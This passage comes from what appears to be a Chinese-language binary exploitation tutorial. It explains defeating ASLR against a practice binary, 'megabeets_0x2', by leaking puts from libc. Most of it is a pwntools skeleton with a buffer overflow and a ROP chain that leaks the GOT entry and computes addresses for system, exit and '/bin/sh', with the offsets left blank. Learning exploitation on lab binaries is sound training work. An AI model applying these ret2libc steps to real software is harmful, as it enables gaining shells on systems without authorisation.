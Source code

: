 ​		执行了 3 次，可以看到 `puts` 的地址在每次运行中是如何变化的。 因此我们无法事先预测它的地址。 现在我们需要找到 `puts` 在 `libc` 中的偏移量，然后计算`libc` 的基地址。 有了基地址后，我们可以使用它们的偏移量计算`system`、`exit`和`“/bin/sh”`的真实地址。

Our skeleton now should look like this:

```
from pwn import *

# Addresses
puts_plt = 0x8048390
puts_got = 0x804a014
entry_point = 0x80483d0

# Offsets
offset_puts = 
offset_system = 
offset_str_bin_sh = 
offset_exit = 

# context.log_level = "debug"

def main():
    
    # open process
    p = process("./megabeets_0x2")

    # Stage 1
    
    # Initial payload
    payload  =  "A"*140
    ropchain =  p32(puts_plt)
    ropchain += p32(entry_point)
    ropchain += p32(puts_got)

    payload = payload + ropchain

    p.clean()
    p.sendline(payload)

    # Take 4 bytes of the output
    leak = p.recv(4)
    leak = u32(leak)
    log.info("puts is at: 0x%x" % leak)
    
    p.clean()
    
    # Calculate libc base

    libc_base = leak - offset_puts
    log.info("libc base: 0x%x" % libc_base)

    # Stage 2
    
    # Calculate offsets
    system_addr = libc_base + offset_system
    binsh_addr = libc_base + offset_str_bin_sh
    exit_addr = libc_base  + offset_exit

    log.info("system: 0x%x" % system_addr)
    log.info("binsh: 0x%x" % binsh_addr)
    log.info("exit: 0x%x" % exit_addr)

if __name__ == "__main__":
    main()
```